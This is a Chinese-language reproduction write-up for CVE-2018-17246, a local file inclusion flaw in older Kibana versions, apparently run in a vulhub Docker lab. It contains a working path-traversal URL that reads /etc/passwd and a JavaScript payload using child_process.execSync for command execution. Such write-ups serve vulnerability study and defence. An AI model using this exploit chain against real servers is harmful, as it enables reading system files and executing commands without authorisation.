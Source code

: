 （CVE-2018-17246）Kibana Local File Inclusion
=============================================

一、漏洞简介
------------

Kibana 为 Elassticsearch
设计的一款开源的视图工具。其5.6.13到6.4.3之间的版本存在一处文件包含漏洞，通过这个漏洞攻击者可以包含任意服务器上的文件。此时，如果攻击者可以上传一个文件到服务器任意位置，即可执行代码。

二、漏洞影响
------------

Kibana 5.6.13到6.4.3

三、复现过程
------------

直接访问如下URL，来包含文件`/etc/passwd`：

    http://www.0-sec.org:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd

虽然在返回的数据包里只能查看到一个500的错误信息，但是我们通过执行`docker-compose logs`即可发现，`/etc/passwd`已经成功被包含：

![1.png](resource/(CVE-2018-17246)KibanaLocalFileInclusion/media/rId24.png)

所以，我们需要从其他途径往服务器上上传代码，再进行包含从而执行任意命令。比如，我们将如下代码上传到服务器的`/tmp/vulhub.js`：

    // docker-compose exec kibana bash && echo '...code...' > /tmp/vulhub.js
    export default {asJson: function() {return require("child_process").execSync("id").toString()}}

成功包含并返回命令执行结果：

![2.png](resource/(CVE-2018-17246)KibanaLocalFileInclusion/media/rId25.png)
